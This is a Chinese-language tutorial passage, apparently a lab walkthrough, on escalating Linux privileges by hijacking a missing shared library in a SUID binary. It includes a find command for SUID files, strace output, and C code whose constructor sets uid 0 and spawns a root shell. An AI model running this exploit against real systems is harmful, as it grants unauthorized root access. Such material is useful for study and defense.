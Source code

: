 #### 1.在目标上查找SUID/SGID文件 ：

```php
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

![image-20210701115900118](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-8b0551195dd68fdfbec04872b8ea3fbf1a7fe152.png)

```php
-rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
```

`suid-so`文件在root用户权限下执行

#### 2.在SUID文件上运行分层：

```php
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such  file"
```

![image-20210704111607655](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-080ed1e88284c005a2b1a72abb5f2b1c01b0b095.png)

```php
user@debian:~$ strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such  file"
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libdl.so.2", O_RDONLY)       = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libm.so.6", O_RDONLY)        = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libc.so.6", O_RDONLY)        = 3
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
user@debian:~$ 
```

可以看到找不到共享对象 `libcalc.so`，程序正在查看用户的家庭目录，我们可以写东西给这个目录

#### 3.创建 /home/user/.config目录

![image-20210704112350458](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4eeff8a5aa98cecd74f9a3b8ee7d519ae5b167e7.png)

注意：这里查看的话 要查看隐藏文件夹命令

#### 4.创建`libcalc.c`具有 以下 内容：

```php
#include <stdio.h>
#include <stdlib.h>
static void inject() __attribute__((constructor));
void inject() {
setuid(0);
system("/bin/bash -p");
}
```
